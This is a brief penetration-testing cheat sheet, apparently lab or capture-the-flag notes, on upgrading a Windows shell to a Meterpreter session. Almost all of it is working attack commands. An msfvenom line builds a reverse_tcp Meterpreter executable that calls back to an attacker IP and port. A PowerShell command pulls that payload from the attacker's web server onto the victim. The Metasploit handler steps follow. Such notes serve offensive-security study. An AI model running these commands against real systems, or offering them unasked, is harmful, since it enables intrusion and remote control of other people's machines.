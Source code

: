 # Upgrading shell to meterpreter
___
Index | Topic
--- | ---
**1** | Description
**2** | Commands

## Description

Once you have a shell in a windows system, we can upgrade it to a meterpreter sessions.

## Commands

- Generate the executable `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.52.13 LPORT=9001 -f exe > shell.exe`
- In the windows machine, change to a writeable folder like `c:\Windows\Temp`
- In the attack machine, start an http server
- In the victim machine, download the file with: `powershell -c "Invoke-WebRequest -Uri 'http://10.10.52.13:8000/shell.exe' -OutFile 'C:\Windows\Temp\shell.exe'"`
- Start metasploit
- Use `exploit/multi/handler`
- Set the payload `windows/meterpreter/reverse_tcp`
- Set the lhost and lport options
- Run the exploit
- Run the shell.exe on the victim
